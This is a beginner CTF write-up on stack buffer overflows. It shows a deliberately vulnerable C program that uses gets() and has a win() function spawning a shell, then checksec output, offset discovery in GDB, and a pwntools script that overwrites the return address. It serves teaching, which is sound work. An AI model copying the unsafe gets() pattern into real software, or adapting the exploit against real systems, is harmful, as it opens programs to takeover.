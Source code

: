 ```yaml
---
title: "Buffer Overflow Basics"
image: "/MalwareLab-X.jpg"
date: "2024-01-10"
category: "ctf"
tags: ["pwn", "buffer overflow", "binary"]
description: "Learn the basics of buffer overflow exploitation through a simple CTF example."
---
```


# 🧠 Buffer Overflow 101

Buffer overflow is one of the most fundamental and powerful vulnerabilities in binary exploitation. In this writeup, we analyze a basic CTF challenge involving an overflow in a C program.

<Note>This is an introductory guide. If you're new to binary exploitation, make sure to follow along step-by-step using tools like GDB and pwntools.</Note>

---

## 🔎 Challenge Overview

We are given a simple ELF binary named `vuln`. The objective is to exploit a buffer overflow to redirect execution to a hidden function named `win()`.

### 🔧 Checking Binary Protections

```bash
checksec vuln
```

Expected output:

```
[*] '/home/user/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

<Note>This binary has no stack canaries and no PIE, which makes return address overwriting feasible.</Note>

## 📁 Source Code Review

```c
#include <stdio.h>
#include <string.h>

void win() {
  printf("🎉 You win!\n");
  system("/bin/sh");
}

void vuln() {
  char buf[64];
  gets(buf);  // 🚨 vulnerable function
}

int main() {
  vuln();
  return 0;
}
```

The vulnerability lies in the `gets()` function, which does not limit input size.

### 📏 Finding the Offset

To determine how many bytes are needed to reach the return address:

```bash
python3 -c "print('A'*80)" | ./vuln
```

Then use GDB or cyclic patterns to find the exact offset:

```bash
gdb ./vuln
pattern create 100
run
pattern offset <value_from_crash>
```

We determine the correct offset is 72 bytes to reach the return address.

### 🎯 Goal

Our goal is to overflow the buffer and overwrite the return address with the address of the `win()` function.

### ✅ Exploit Script

```python
from pwn import *

# Start process
p = process("./vuln")

# Find win function address
win_addr = 0xdeadbeef  # replace with actual address from `nm vuln | grep win`

# Construct payload
payload = b"A" * 72 + p64(win_addr)

# Send payload
p.sendline(payload)

# Get shell
p.interactive()
```

<Note>Always run exploits in a controlled environment like a local VM or Docker container.</Note>

## 🔐 Mitigation Techniques (FYI)

Modern binaries use several defenses:

- Stack canaries
- ASLR (Address Space Layout Randomization)
- PIE (Position Independent Executable)
- DEP/NX (Non-Executable Stack)

To practice real-world scenarios, try challenges with these protections enabled.

## 🏁 Conclusion

This challenge teaches:

- Stack layout
- Overwriting the return address
- Using pwntools for automation
- Basic binary reverse engineering

## 🧪 Next Steps

Try exploiting similar binaries with NX enabled, which will require Return-Oriented Programming (ROP).

<Note>Mastering buffer overflows lays the foundation for advanced binary exploitation techniques like ROP chains and heap exploitation.</Note>
